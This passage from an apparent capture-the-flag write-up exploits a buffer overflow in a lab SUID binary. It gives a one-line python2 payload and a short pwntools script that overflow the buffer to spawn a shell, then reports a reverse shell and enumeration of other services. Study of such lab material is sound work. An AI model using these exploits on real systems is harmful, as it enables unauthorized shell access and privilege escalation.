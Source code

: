 Doing the math `0x60 - 0x38 = 0x28` we get the offset

Basically here's the exploit one linear payload
![image](https://user-images.githubusercontent.com/113513376/219230238-235de410-d2e5-4d1b-abb3-b348f9fcc76e.png)

```
python2 -c "print 'A'*0x28 + 'sh'" > payload   
(cat payload;cat) | ./suidflow
```

Now because i'm learning bof i just want to make a local exploit script for it 🤓
![image](https://user-images.githubusercontent.com/113513376/219230384-dc9fc49c-b74c-4b98-a346-a2007252f45e.png)

Script avaialble here [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/echoctf/doorknob/exploit.py)
```
from pwn import *

io = process('./suidflow')

offset = 0x28
overflow = 'A' * offset
sh = 'sh'

payload = overflow + sh

io.sendline(payload)
io.interactive()
```

I'll run it on the remote server binary
![image](https://user-images.githubusercontent.com/113513376/219230612-54a3ed61-ec06-43c5-a520-43a6ae1c0bad.png)

So now i'll get a reverse shell 
![image](https://user-images.githubusercontent.com/113513376/219231123-be64923c-5ac2-415a-9575-29294168391f.png)

Now we know that there are other services running on the host and we initially got the path of the files leaked from error `/services/central-control.functions`

Checking it shows the files for 3 services running on it
![image](https://user-images.githubusercontent.com/113513376/219231397-017d0a04-380c-4a30-8c6c-c8a801083d91.png)

Viewing the content shows the other flags 

On port 5903: Shows a service that we need to choose the correct menu and sub menu within 10seconds
![image](https://user-images.githubusercontent.com/113513376/219234149-a14ca121-d019-4d4d-b2c3-33003f975722.png)

Of cause we can do this manually but scripting would be the best do 

Here's what the script i'll make will do 

```
1. Connect to the remote service
2. Strip out the menu and sub menu number
3. Send the value of menu and sub menu 
4. Receive the flag
```
